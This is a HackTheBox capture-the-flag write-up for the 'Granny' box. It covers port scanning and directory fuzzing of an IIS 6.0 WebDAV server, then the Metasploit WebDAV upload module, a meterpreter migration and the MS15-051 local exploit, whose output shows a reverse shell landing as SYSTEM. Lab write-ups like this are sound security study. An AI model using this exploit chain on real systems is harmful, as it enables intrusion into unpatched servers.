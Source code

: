 
# Granny - HackTheBox

A few words describe this box. Update. Your. Shit.

# Enumeration

## Rustscan

```bash
Open 10.10.10.15:80
```

## Nmap

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Sun, 04 Sep 2022 22:11:56 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## ffuf

```bash
 :: Method           : GET
 :: URL              : http://granny.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 71ms]
_private                [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]
_vti_log                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 69ms]
_vti_bin                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 126ms]
aspnet_client           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 62ms]
images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 68ms]
:: Progress: [20476/20476] :: Job [1/1] :: 463 req/sec :: Duration: [0:00:33] :: Err
```

# Foothold & Root

I googled Microsoft IIS 6.0 vulnerabilities and found ![this](https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html) article by TrendMicro about a vulnerability in Webdav in IIS 6.0.

Curious, I checked metasploit for any modules and found "windows/iis/iis_webdav_upload_asp".

Tried it out and popped a shell and migrated into wmiprvse.exe with success!

```cmd
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1972  2700  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad10F81.tmp\svchost.exe
 2052  1004  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2164  1848  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2292  584   wmiprvse.exe
 2700  1480  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2768  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3004  344   logon.scr

meterpreter > migrate 1964
[*] Migrating from 1972 to 1964...
[*] Migration completed successfully.
meterpreter > getuid
```

```cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
```

Version 5.2 seems pretty old so I ran it through Windows-Exploit-Suggestor.

MS15-051 - ClientCopyImage was the first one I tried, and it was successful in getting a root shell!

```bash
msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.29:1234 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 3984 launched.
[*] Reflectively injecting the DLL into 3984...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.14.29:1234 -> 10.10.10.15:1035) at 2022-09-04 18:10:02 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

In there I found the user flag in "Lakis" home folder, and the root flag in "Administrator"! :)
